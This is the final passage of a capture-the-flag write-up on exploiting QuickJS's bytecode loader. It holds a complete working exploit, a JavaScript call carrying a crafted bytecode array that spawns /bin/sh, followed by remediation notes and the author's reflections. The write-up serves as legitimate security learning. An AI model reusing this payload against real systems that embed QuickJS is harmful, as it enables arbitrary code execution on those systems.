 The code is now fully position independent, as you can see by the lack of hard-coded addresses, and running it correctly opens a shell that we can use to retrieve the flag!

The exact JavaScript code we can use to gain shell access looks as follows:
```
loadall((new Uint8Array([67,15,26,102,108,111,97,116,95,97,100,100,95,114,97,119,6,102,108,116,6,118,97,108,8,118,105,101,119,20,115,101,116,70,108,111,97,116,54,52,18,103,101,116,85,105,110,116,51,50,18,115,101,116,85,105,110,116,51,50,20,103,101,116,70,108,111,97,116,54,52,28,115,116,97,99,107,108,101,97,107,95,112,114,101,112,10,112,114,105,110,116,30,115,116,97,99,107,95,108,101,97,107,95,112,114,101,112,10,60,114,101,116,62,34,115,116,97,99,107,95,108,101,97,107,95,112,114,101,112,46,115,10,60,114,101,116,62,18,112,97,121,108,111,97,100,46,115,12,0,6,0,162,1,0,1,0,1,0,3,128,1,1,164,1,0,0,0,194,2,240,14,194,1,88,25,0,1,128,254,255,255,242,89,39,0,88,17,0,89,37,0,88,39,0,89,17,0,190,89,37,0,88,36,0,89,16,0,88,37,0,17,190,89,226,0,88,39,0,89,17,0,194,1,88,225,0,27,88,225,0,1,169,6,0,0,242,89,33,0,27,88,36,0,89,16,0,193,0,89,47,0,194,1,27,1,240,2,0,0,242,89,34,0,194,1,27,1,118,229,2,0,242,89,35,0,88,39,0,89,17,0,194,1,27,1,32,10,0,0,242,89,16,0,6,40,226,3,1,0,6,47,98,105,110,47,115,104,0,12,67,6,0,198,3,2,2,2,6,0,4,169,1,4,200,3,0,1,0,202,3,0,1,0,204,3,1,0,48,226,1,1,1,32,97,1,0,97,0,0,56,179,0,0,0,17,56,166,0,0,0,17,191,8,33,1,0,33,1,0,203,98,0,0,66,231,0,0,0,183,211,10,36,3,0,14,56,180,0,0,0,98,0,0,66,232,0,0,0,187,10,36,2,0,241,193,0,161,56,180,0,0,0,98,0,0,66,232,0,0,0,183,10,36,2,0,241,176,204,98,1,0,56,180,0,0,0,212,241,158,17,99,1,0,14,98,0,0,66,233,0,0,0,183,56,154,0,0,0,98,1,0,193,1,174,241,10,36,3,0,14,98,0,0,66,233,0,0,0,187,56,154,0,0,0,98,1,0,193,2,162,193,3,174,241,10,36,3,0,14,98,0,0,66,234,0,0,0,183,10,37,2,0,202,3,1,7,34,110,80,220,85,133,150,10,36,1,128,10,140,1,4,255,255,255,255,10,36,1,128,10,140,1,4,255,255,255,255,12,0,6,0,218,3,0,1,0,2,0,0,16,1,164,1,0,0,0,88,26,0,183,89,78,0,89,18,0,190,89,37,0,6,40,222,3,1,0])).buffer);
```
## Remediation

QuickJS's bytecode interpreter was not designed to safely deal with arbitrary input. It was designed to only handle bytecode generated by the library itself, and as such, it should not be exposed to the user. Although this particular vulnerability could be fixed by adding bound checks to `get_loc` and `put_loc`, it is likely that some other exploit will still be possible. For the `loadall` instruction to exist safely, the developers would need to make substantial changes to QuickJS's internals and conduct extensive testing to make the interpreter safe.

## Closing thoughts

This challenge was intended to be solvable in three days, but took me around three weeks to solve myself. I have immense respect for the few teams that did solve it in time, and I would like to thank KalmarCTF Discord member `white701` for outlining the steps he took to come up with his solution, which really helped me get started, and for answering my questions when I got stuck. 

Looking at the posted solutions, it looks like other teams used a hybrid JavaScript/bytecode approach where only some actions used custom-crafted bytecode with the `loadall` instruction, and the rest of the exploit was kept in JavaScript. In retrospect, I should probably have followed that approach as well, which may have eliminated the need to write a full blown multi-file assembler for an undocumented instruction set used by only one specific JavaScript engine. That being said, I recognized many of the patterns I came up with in other solutions, so I don't think my actual exploit strategy ended up being that much more complicated compared to others.

This was my first ROP exploit and I had an absolute blast. I love diving into rabbit holes like this one, study up on a very niche topic and developing my own tools, until everything eventually comes together at the end. I also learned a ton of skills that I know will transfer to completely unrelated challenges, and I am now more motivated than ever to take up more binary exploitation challenges.